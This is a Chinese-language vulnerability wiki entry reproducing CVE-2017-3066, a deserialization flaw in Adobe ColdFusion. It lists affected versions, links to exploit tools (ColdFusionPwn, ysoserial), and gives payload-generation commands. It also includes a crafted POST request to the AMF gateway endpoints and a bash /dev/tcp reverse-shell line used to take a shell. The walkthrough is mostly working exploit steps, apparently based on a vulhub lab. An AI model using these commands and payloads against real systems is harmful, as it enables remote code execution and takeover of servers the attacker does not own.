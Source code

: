 （CVE-2017-3066）Adobe ColdFusion 反序列化漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Adobe ColdFusion (2016 release) Update 3及之前的版本，

ColdFusion 11 Update 11及之前的版本，

ColdFusion 10 Update 22及之前的版本。

三、复现过程
------------

使用[ColdFusionPwn](https://github.com/ianxtianxt/ColdFusionPwnn)工具来生成POC。[点击下载ColdFusionPwn](http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip)

Usage
-----

    java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]

[点击下载ysoserial](http://wiki.0-sec.org/download/ysoserial.zip)【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

    java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`**路径不唯一，目前已收集到的为以下两种路径：****/flex2gateway/amf****/messagebroker/amf**

    POST /flex2gateway/amf HTTP/1.1
    Host: your-ip:8500
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-amf
    Content-Length: 2853

    [...poc...]

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId28.png)

### 关于发送的内容编码问题

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200

#### 正确发送方式为：

右击选择**Paste From File**，上传**poc.cer**文件

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId31.png)

再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId32.png)

进入容器中，发现`/tmp/success`已成功创建：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId33.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-3066)AdobeColdFusion反序列化漏洞/media/rId35.png)

补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换

    bash -i >& /dev/tcp/ip/port 0>&1

参考链接
--------

> https://vulhub.org/\#/environments/coldfusion/CVE-2017-3066/
